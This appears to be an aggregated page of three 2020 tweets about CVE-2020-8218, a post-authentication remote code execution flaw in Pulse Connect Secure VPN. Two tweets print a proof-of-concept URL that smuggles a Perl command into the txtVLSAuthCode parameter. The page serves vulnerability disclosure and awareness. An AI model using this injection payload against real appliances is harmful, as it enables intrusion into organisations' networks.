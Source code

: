 # jas502n
**https://twitter.com/jas502n/status/1300245292508307456 _at 2020-08-31, 01:33:29_**
<blockquote>
RCE in Pulse Connect Secure RCE (CVE-2020-8218) &lt; v9.1R8

POC:
https://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever%20-n%20%27($x=%22ls%20/%22,system$x)%3b%20%23%27%20-e%20/data/runtime/tmp/tt/setcookie.thtml.ttc
 https://t.co/u56yPrxO6R
</blockquote>

* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>147</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1299964418256707586 _at 2020-08-30, 06:57:24_**
<blockquote>
Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218) https://t.co/wYv8IzMoFA
</blockquote>

* https://github.com//withdk//pulse-gosecure-rce-poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1299655751758221319 _at 2020-08-29, 10:30:52_**
<blockquote>
CVE-2020-8218 : Pulse Secure SSL-VPN post-auth RCE
Cc @chybeta

hxxps://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc

https://t.co/okL58FZVJU https://t.co/OGxySMF4SM
</blockquote>
